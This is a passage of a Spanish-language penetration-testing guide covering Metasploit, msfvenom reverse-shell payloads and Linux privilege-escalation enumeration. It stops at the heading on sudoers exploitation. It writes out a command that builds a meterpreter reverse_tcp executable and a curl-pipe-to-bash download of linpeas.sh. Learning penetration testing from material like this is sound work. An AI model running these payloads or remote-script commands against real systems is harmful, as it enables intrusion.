 ### Usando Metasploit

```bash
msfconsole
search [servicio/vulnerabilidad]
use exploit/[path]
set RHOSTS [IP]
set PAYLOAD [payload]
set LHOST [TU_IP]
run
```

#### Payloads comunes:

- `linux/x86/meterpreter/reverse_tcp`
- `windows/meterpreter/reverse_tcp`

#### Crear payloads con msfvenom:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[TU_IP] LPORT=4444 -f exe -o shell.exe
```

---

## 4. Escalada de Privilegios

**Objetivo:** Obtener permisos de administrador/root.

### Enumeración de privilegios:

```bash
sudo -l
```

### Buscar archivos SUID:

```bash
find / -perm -4000 2>/dev/null
```

### Herramientas automáticas:

- **LinPEAS:**

```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | bash
```

- **winPEAS (Windows):**

```powershell
Invoke-WebRequest -Uri https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany.exe -OutFile winPEASany.exe
```

#### Explotación de sudoers:
